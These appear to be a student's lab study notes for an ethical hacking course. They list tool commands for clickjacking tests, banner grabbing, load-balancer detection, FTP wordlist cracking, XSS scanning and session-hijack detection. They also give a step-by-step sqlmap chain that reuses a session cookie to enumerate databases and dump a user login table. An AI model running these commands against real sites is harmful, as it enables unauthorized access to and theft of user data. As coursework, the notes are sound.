# Test website for clickjacking
If ClickJackPOC.py doesn't work, www.clickjacker.io

# Finding HTTP and Web servers for websites
- Can use http-recon
- If site isn't reachable with the tool, try opening it with firefox or chrome
- Press F12 -> Network tab -> Refresh page
- Look under response headers

# Cracking FTP Credentials
- REMEMBER THERE ARE PROVIDED WORDLISTS
- Check both the one on Desktop and in Module 13 in Parrot Machine

# Finding Load Balancing Svc
1. dig <site> -> Take sites from ANSWER SECTION
2. lbd <answer_site>

# CMS
Content management system refers to the system used by the website (eg. WordPress, SquareSpace)

# Banner Grabbing
wget <ip> -q -S (gives etag)
- Make sure to use an actual ip and not a hostname

# Web application snooping
- Use Burp Suite and setup a proxy to observe the structure

# Check for XSS
- Navigate to PwnXSS folder
- python3 pwnxss.py -u <url>

# SQL Injection Attack
The question asks to get number of users and gave login credentials
- Login to target site and select "View Profile"
- Open Developer tools (F12), go to console and type "document.cookie"
- Eg. "mscope=*********; ui-tabs-1=0"
- Open a terminal
- sqlmap -u "<current_url>" --cookie="mscope=*********;" --dbs
    - Returns all available databases 
    - (Eg. we're selecting moviescope)
- sqlmap -u "<current_url>" --cookie="mscope=*********; ui-tabs-1=0" -D moviescope --tables
    - Returns all tables 
    - (Eg. we want User_Login)
- sqlmap -u "<current_url>" --cookie="mscope=*********; ui-tabs-1=0" -D moviescope -T User_Login --dump
    - Returns a list of all content in that table
    - (Eg. This table has 9 users)

# Detect Session Hijacking
- Open .pcap file in Wireshark
- Filter by ARP and see there is a lot of requests